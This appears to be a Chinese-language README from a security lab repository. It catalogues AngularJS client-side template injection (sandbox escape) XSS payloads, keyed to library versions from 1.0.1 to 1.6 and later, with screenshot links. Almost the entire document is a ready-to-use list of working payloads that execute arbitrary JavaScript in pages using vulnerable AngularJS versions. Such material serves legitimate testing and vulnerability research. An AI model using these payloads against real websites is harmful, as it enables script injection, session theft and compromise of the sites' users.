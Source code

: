 ## 各个版本的angular xss测试
### 配置:下载angular js到js目录后，手动修改代码中的angularjs版本即可
angular js 链接：https://ajax.googleapis.com/ajax/libs/angularjs/1.3.0/angular.min.js 

### payloads
```
1.0.1 - 1.1.5
{{constructor.constructor('alert(1)')()}}
1.2.0 - 1.2.1
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
1.2.2 - 1.2.5
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
1.2.6 - 1.2.18
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
1.2.19 - 1.2.23
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
1.2.24 - 1.2.29
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
1.3.0
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
1.3.1 - 1.3.2
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
1.3.3 - 1.3.18
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
1.3.19
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
1.3.20
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
1.4.0 - 1.4.9
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
1.5.0 - 1.5.8
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}} 
1.5.9 - 1.5.11
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
>=1.6.0
{{constructor.constructor('alert(1)')()}}
```

### 测试截图
1.6.0
![](https://github.com/Conanjun/xss-vulnhub/blob/master/angular-xss/pic/07.png)
1.4.8
![](https://github.com/Conanjun/xss-vulnhub/blob/master/angular-xss/pic/04.png)
1.3.0
![](https://github.com/Conanjun/xss-vulnhub/blob/master/angular-xss/pic/09.png)
1.2.0
![](https://github.com/Conanjun/xss-vulnhub/blob/master/angular-xss/pic/08.png)
剩余版本自行测试即可